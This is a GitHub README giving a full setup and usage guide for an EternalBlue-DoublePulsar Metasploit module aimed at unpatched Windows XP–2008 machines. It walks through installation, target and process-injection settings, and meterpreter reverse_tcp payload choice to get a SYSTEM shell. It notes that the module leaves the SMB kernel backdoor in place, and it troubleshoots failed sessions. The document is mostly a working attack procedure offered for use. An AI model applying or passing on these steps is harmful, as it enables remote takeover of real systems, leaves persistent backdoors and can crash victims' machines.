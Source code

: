 # EternalBlue
ElevenPaths EternalBlue Metasploit module - works better than Rapid 7

EternalBlue module setup (credit to ElevenPaths for their fantastic module)

One thing I could never find was a full setup guide.  I had to piece this together from other sources and how I went about the setup
*One thing to note - this module leaves the backdoor open in the SMB kernel and does not perform cleanup*

# Installation Setup

	1.) git clone https://github.com/w0rtw0rt/EternalBlue to any directory
	2.) Place eternalblue-doublepulsar.rb file into the /.msf4/modules/exploits/windows/smb folder (mkdir -p to make it)
	3.) open terminal
	4.) dpkg --add-architecture i386 && apt-get update && apt-get install wine32
	5.) add directory in your home directory for mkdir -p .wine/drive_c
	6.)  (removed)
	7.) (removed)
	8.) open metasploit (msfconsole)
	9.) use exploit/windows/smb/eternalblue_doublepulsar (should tab autocomplete if you placed in proper directory)
	10.) set proper payload for arch (windows/x64/meterpreter/reverse_tcp vs windows/meterpreter/reverse_tcp)
	11.) show options
	12.) set DOUBLEPULSARPATH to directory your DEPS folder resides (default is root/Eternalblue-Doublepulsar-Metasploit/deps/)
	13.) set ETERNALBLUEPATH to directory your DEPS folder resides (default is root/Eternalblue-Doublepulsar-Metasploit/deps/)
	14.) set RHOST *target IP*
	15.) set TARGETARCHITECTURE *x86 or x64*
	16.) set TARGET *target OS - Windows 2008/7 down to 2003/XP*
	17.) set PROCESSINJECT *running process - use lsass.exe (x64) or svchost.exe (x86) or explorer.exe if user is logged in*

At this point, when you run this module for the very first time, wine will initialize and the exploit will fail stating that 
certain dependencies could not be run.  After the initialization, run the module again and all dependencies will be set up.  
The module should complete and if your target is vulnerable, it will open the back door and inject the auto-generated payload 
to the target.  This should bring back a meterpreter shell with system level access (NTAuthority/System).

# Troubleshooting
    Q. Why did my meterpreter shell die?
    A. Chances are you injected to a process that was unstable.  For example, lsass.exe is going to crash on x86.  A notification will usually appear on the user's desktop notifying them that Windows will restart in 1 minutes due to a fatal error.
    
    Q. The module fails when I try to run it.  It gives me output saying it could not find xxxx directory
    A. Make sure you have pointed your paths to wherever you have your /deps folder residing. It will also need sudo priviliges.
    
    Q. The exploit completed but no session was created!
    A. Multiple things could come into play here:
       a.) Some security feature may be preventing outbound access from the device (reverse tcp connection)
       b.) Your target arch doesn't match your payload
       
    Q. The exploit continues to ask me "are you sure the target is vulnerable?"
    A. Chances are the target isn't vulnerable or has been patched for the ms17-010 exploit. Ensure you've enumerated properly.
